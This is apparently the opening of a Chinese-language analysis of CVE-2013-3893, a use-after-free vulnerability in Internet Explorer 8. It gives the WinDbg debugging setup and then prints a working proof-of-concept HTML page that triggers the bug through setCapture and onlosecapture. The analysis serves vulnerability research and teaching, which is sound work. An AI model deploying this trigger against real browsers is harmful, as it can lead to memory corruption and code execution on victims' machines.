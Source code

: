 # CVE-2013-3893 IE UAF漏洞分析

**Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com**

- 调试环境：Win7
- IE版本：8.0.7601.17514

载入Poc，使用WinDbg挂接，不做任何操作直接运行，断在如下位置

![](Image/1.png)

确保Poc能运行且WinDbg运行良好，我们来看Poc
```
<html>
<script>
function trigger()
{
    var id_0 = document.createElement("sup");
    var id_1 = document.createElement("audio");
    document.body.appendChild(id_0);
    document.body.appendChild(id_1);
    id_1.applyElement(id_0);
    id_0.onlosecapture = function(e) {
        document.write("");
    }
    id_0["outerText"] = "";
    id_0.setCapture();
    id_1.setCapture();
}
window.onload = function() {
    trigger();
}
</script>
</html>
```
